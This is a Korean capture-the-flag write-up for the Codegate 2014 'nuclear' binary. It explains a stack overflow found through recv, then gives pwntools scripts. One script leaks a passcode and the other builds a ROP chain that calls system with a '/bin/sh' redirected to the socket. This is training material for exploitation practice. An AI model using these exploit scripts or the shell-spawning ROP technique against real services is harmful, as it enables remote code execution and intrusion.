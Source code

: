 # Codegate 2014 Nuclear 풀이

문제 요약 : passcode를 leak한 다음 recv를 이용한 overflow를 요구하는 문제



먼저 공격 벡터를 찾아보기로 했다.

sub_8048B9C에 pthread_create에 인자인 start_routine 함수를 보면



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_0.JPG)



분명히 buf는 524 바이트가 할당되어 있는데,  recv로 할당하는 크기는 0x512 즉 1298 바이트를 할당한다. 이 부분에서 stack overflow가 일어남을 알 수 있다.



근데 한 가지 문제가 있었다.



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_1.JPG)



launch를 하면 passcode를 입력해아하는데, 이 passcode는 THIS_IS_NOT_KEY_JUST_PASSCODE라는 파일을 읽어서 저장된 값이다.  근데 이 파일은 내가 만들었긴하지만 모른다는 가정하에 PASSCODE를 구하려면 어딘가에서 leak을 해야했다.



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_2.JPG)



leak 하기 전 스택의 상황을 살펴보니

| ret | sfp | newthread | str | v4 | v5 | passcode | v7 | *stream|으로 이루어진 것을 알 수 있다.

그리고 위를 바탕으로 leak을 할 수 있는 함수를 찾았더니



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_3.JPG)



아마 이것이 leak을 위한 함수 같다. 근데 이것만 이용하면 str을 다 채운다고 해도 v4, v5에 가로막혀 passcode의 값을 빼기는 힘들다.

그래서 v4, v5에 있을 NULL을 없애기 위한 방법을 찾아보았다.



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_4.JPG)

 

target이란 명령어를 입력하면 %f/%f로 v5와 &v4에 값을 채워넣는데 이 부분의 NULL을 없애면 아마 passcode를 leak할 수 있을 듯 하다.



이를 바탕으로 leak하는 함수를 짜보았다.

```python
from pwn import *

r = remote("localhost", 1129)

r.recvuntil("> ")
r.sendline("target")
r.recvuntil("---> ")
r.sendline("123.456798/123.456789") # v4와 v5의 값을 채워줌
r.recvuntil("> ")
r.sendline("A"*516)
r.recv(0x21e) # garbage 값 버리기
passcode = r.recv(1024)
print "[*] passcode : " + passcode
```



이를 실행해보면



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_5.JPG)



와~ passcode가 passcode였다. ㅋ



이제 launch 메뉴에서 passcode를 입력하고 공격 벡터를 공격하면 되겠다.

먼저 어떤 보호기법이 걸려있나 살펴보기로 한다.



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_6.JPG)



NX만 걸려있다. 그러면 일단 쉘코드 문제는 아니니깐 ROP를 하면 되겠다.

근데 plt를 구할 때, 나는 ELF를 이용하여 구했는데 이게 제대로 된 값이 아니었다... ㅠㅠ

그래서 어짜피 서버는 계속 똑같은 값을 가지고 있을 것이니깐 디버깅을 통해 함수 주소를 구해온 후  익스를 하기로 했다.



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_7.JPG)



이젠 그냥 이 주소를 가지고 rop를 때리면??



```python
from pwn import *
import time

binary = "./nuclear"
libc = "/lib/i386-linux-gnu/libc-2.23.so"

#context.log_level = "debug"

r = remote('localhost', 1129)
e = ELF(binary)

#time.sleep(10) # 디버깅을 위한 sleep

ppppr = 0x804917c
bss = e.bss()
recv = 0xf76b3340
system = 0xf7528da0

r.recvuntil("> ")
r.sendline("launch")
r.recvuntil(": ")
r.sendline("passcode")
r.recvuntil("COUNT DOWN : 100")

print "[*] gadget addr : " + hex(ppppr)
print "[*] bss addr : " + hex(bss)
print "[*] recv addr : " + hex(recv)
print "[*] system addr : " + hex(system)

payload = "A" * 528
payload += p32(recv)
payload += p32(ppppr)
payload += p32(4)
payload += p32(bss)
payload += p32(len("/bin/sh 0>&4 1>&4") + 1)
payload += p32(0)

payload += p32(system)
payload += "ABCD"
payload += p32(bss)

r.sendline(payload)
r.recv(1024)
r.sendline("/bin/sh 0>&4 1>&4")  # 그냥 /bin/sh 때리면 서버에서 처리됨
r.recv(1024)
r.interactive()
r.close()
```



이러면??



![nuclear](https://github.com/34t3rnull/HelloCTF/blob/master/Codegate_2014_nuclear/rsrc/nuclear_8.JPG)



성공!!!
